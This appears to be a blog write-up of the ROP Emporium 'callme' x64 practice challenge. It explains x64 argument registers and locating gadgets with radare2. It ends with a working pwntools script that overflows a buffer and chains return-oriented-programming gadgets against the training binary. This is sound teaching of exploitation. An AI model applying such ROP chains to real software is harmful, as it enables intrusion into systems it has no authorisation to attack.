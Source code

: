 ```yaml
---
layout: post
title:  "ROP Emporium callme Writeup (x64)"
date:   2024-06-02 00:00:00 -0400
categories: rop-emporium callme
tags: rop-emporium callme x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[third challenge](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call the functions `callme_one()`,
`callme_two()`, and `callme_three()` in that order with
the arguments `0xdeadbeefdeadbeef`, 
`0xcafebabecafebabe`, and `0xd00df00dd00df00d`.

We should essentially be running
```c
callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
```

### x64 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x64` arguments are passed through specific registers.
The first three arguments correspond to the `rdi`, `rsi`,
and `rdx` registers respectively. 
[This x64 cheat sheet](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
can help if you want to learn more about `x64`.

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> What are the plt addresses of the functions?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![func-addr](/images/callme/x64-addr.png)

The function addresses we need are
```
callme_one: 0x00400720
callme_two: 0x00400740
callme_three: 0x004006f0
```

Why are we using the `plt` entries for the functions
rather than the calls in `usefulFunction`? When
a `call` instruction is executed, it'll execute the
function while also placing the return address onto
the stack! So once `callme_one()` is finished it
will continue to execute instructions in `usefulFunction`

![call-problem](/images/callme/x64-call-problem.png)

So after we finish `callme_one()`, the program
will exit!


### Adding Arguments
> Is there a gadget which sets the argument registers?
{: .prompt-tip }
Let's take a look at `usefulFunction` in `radare2`
```
s sym.usefulFunction
V
p
```

![useful-asm](/images/callme/x64-useful-asm.png)

There's a helpful section called `usefulGadgets` with,
who would've thought, a useful gadget! It sets the 
first three `x64` argument registers from the stack,
which we already control! The address of this
gadget is `0x0040093c`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
call1_addr = 0x00400720
call2_addr = 0x00400740
call3_addr = 0x004006f0
pop_regs_addr = 0x0040093c

# put args into corresponding registers
def set_args(args):
    payload = p64(pop_regs_addr)
    for a in args:
        payload += p64(a)
    return payload

# create payload
payload = b'A' * 40

# callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
args = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]
payload += set_args(args)
payload += p64(call1_addr)

# callme_two
payload += set_args(args)
payload += p64(call2_addr)

# callme_three
payload += set_args(args)
payload += p64(call3_addr)

# send payload + receive flag
io = process('./callme')
io.sendline(payload)
io.recvuntil(b'callme_two() called correctly\n')
flag = io.recvline()
log.success(flag)
```
![flag](/images/callme/x64-flag.png)

## Conclusion
This challenge reinforces the the concept of passing
multiple arguments in `x64`, as well as finding
and chaining gadgets together.

[Previous Challenge (split)]({% post_url 2024-06-01-rop-emporium-split-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

Next Challenge (write4)

[callme x86]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
